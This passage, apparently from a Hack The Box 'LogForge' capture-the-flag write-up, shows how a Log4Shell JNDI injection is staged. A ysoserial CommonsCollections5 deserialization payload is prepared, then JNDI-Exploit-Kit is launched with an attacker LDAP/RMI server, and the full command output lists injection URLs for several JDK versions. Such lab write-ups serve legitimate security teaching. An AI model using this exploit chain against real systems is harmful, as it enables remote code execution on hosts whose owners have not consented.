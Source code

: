 Ignore the warnings as that's normal. The above has created a file called pencer.ser which once de-serialized on the target will attempt to ping my Kali IP four times. For this box I used CommonsCollections5, you might have to try a few different ones until you get the one that works on another box. Next start the JNDI exploit kit, tell it the payload is my pencer.ser file, and start an LDAP server with my Kali tun0 IP on port 389:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -P ysoserial-modified/target/pencer.ser -L 10.10.14.12:389
       _ _   _ _____ _____      ______            _       _ _          _  ___ _   
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |  
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_ 
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_ 
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |                                    
                                           |_|               created by @welk1n 
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.10.14.12
[RMI_ADDR] >> 10.10.14.12
[LDAP_ADDR] >> 10.10.14.12
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.12:1099/ibnzwd
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/taej3a
ldap://10.10.14.12:389/taej3a
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/xhoxtt
ldap://10.10.14.12:389/xhoxtt
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/pksgjn
ldap://10.10.14.12:389/pksgjn
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/u3rmld
ldap://10.10.14.12:389/u3rmld
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.12:1099/2hpfij

----------------------------Server Log----------------------------
2022-01-02 17:46:02 [JETTYSERVER]>> Listening on 10.10.14.12:8180
2022-01-02 17:46:02 [RMISERVER]  >> Listening on 10.10.14.12:1099
2022-01-02 17:46:02 [LDAPSERVER] >> Listening on 0.0.0.0:389
```

As you can see there are targets for different environments depending on the version of JDK we are dealing with. You may need trial and error to find the one that works for you on another box.
